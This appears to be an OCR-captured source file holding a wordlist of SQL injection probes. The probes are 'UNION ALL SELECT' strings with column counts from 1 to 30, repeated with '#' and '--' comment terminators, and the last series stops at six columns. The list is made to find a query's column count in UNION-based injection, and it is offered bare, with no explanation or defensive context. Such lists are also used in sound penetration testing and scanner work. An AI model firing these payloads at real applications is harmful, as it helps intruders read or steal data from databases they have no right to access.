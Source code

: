       UNION ALL SELECT 1,2,3
      UNION ALL SELECT 1,2,3,4
      UNION ALL SELECT 1,2,3,4,5
      UNION ALL SELECT 1,2,3,4,5,6
      UNION ALL SELECT 1,2,3,4,5,6,7
      UNION ALL SELECT 1,2,3,4,5,6,7,8
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
      UNION ALL SELECT 1#
      UNION ALL SELECT 1,2#
      UNION ALL SELECT 1,2,3#
      UNION ALL SELECT 1,2,3,4#
      UNION ALL SELECT 1,2,3,4,5#
      UNION ALL SELECT 1,2,3,4,5,6#
      UNION ALL SELECT 1,2,3,4,5,6,7#
      UNION ALL SELECT 1,2,3,4,5,6,7,8#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
      UNION ALL SELECT 1-- 
      UNION ALL SELECT 1,2-- 
      UNION ALL SELECT 1,2,3-- 
      UNION ALL SELECT 1,2,3,4-- 
      UNION ALL SELECT 1,2,3,4,5-- 
      UNION ALL SELECT 1,2,3,4,5,6-- 
